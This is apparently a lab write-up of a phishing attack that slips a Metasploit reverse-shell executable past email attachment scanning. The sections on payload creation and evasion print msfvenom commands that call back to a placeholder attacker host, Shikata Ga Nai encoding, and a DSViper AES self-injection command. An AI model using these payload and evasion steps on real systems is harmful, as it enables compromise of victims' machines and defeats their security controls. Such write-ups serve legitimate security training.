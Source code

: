 # Bypassing Email Security: Advanced Payload Obfuscation

## Overview

This writeup details a successful attack that involved bypassing email security mechanisms to deliver a malicious payload. When initial attempts to send a malicious executable were blocked, we employed advanced payload obfuscation techniques to evade detection and successfully establish a reverse shell connection.

## Tools Used

- Metasploit Framework
- msfvenom (payload generation)
- SGN encoder (initial obfuscation attempt)
- DSViper (successful payload obfuscation)
- Email client

## Attack Methodology

### 1. Initial Access and Reconnaissance

- Gained access to the target's email server using provided credentials
- Examined inbox contents to understand the target's requirements
- Identified an email where the target was requesting software installation files

### 2. Initial Payload Attempt

- Created a malicious executable using msfvenom to establish a reverse shell
  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > software.exe
  ```
- Attempted to send the payload as an email attachment
- Discovered that the attachment was automatically removed during transmission

### 3. Security Analysis

- Hypothesized that an email security system or antivirus was scanning attachments
- Tested the hypothesis by sending a benign .exe file with no malicious code
- Confirmed that legitimate executables were allowed through
- Concluded that the security system was detecting malicious signatures in our payload

### 4. Initial Evasion Attempt

- Attempted to encode the payload using the SGN (Shikata Ga Nai) encoder
  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -e x86/shikata_ga_nai -f exe > encoded_payload.exe
  ```
- Discovered that the encoded payload was still detected and removed
- Determined that more sophisticated obfuscation was required

### 5. Advanced Obfuscation

- Researched more advanced payload obfuscation techniques
- Selected the DSViper tool for its ability to disguise payloads effectively
- Used DSViper with the self-injection (AES) option to obfuscate the same metasploit payload
  ```
  python dsviper.py -p windows/shell_reverse_tcp -o obfuscated_payload.exe --self-inject aes
  ```

### 6. Successful Delivery

- Sent the obfuscated payload as an email attachment
- Confirmed that the attachment was not removed by the security system
- Successfully established a reverse shell connection when the target executed the file

## Conclusion

This attack demonstrates the importance of understanding and adapting to security controls. When initial attempts were blocked, we analyzed the security mechanism and developed a targeted approach to bypass it. The key insight was recognizing that standard encoding techniques (SGN) were insufficient, and more advanced obfuscation methods (DSViper with AES encryption) were required to evade detection.
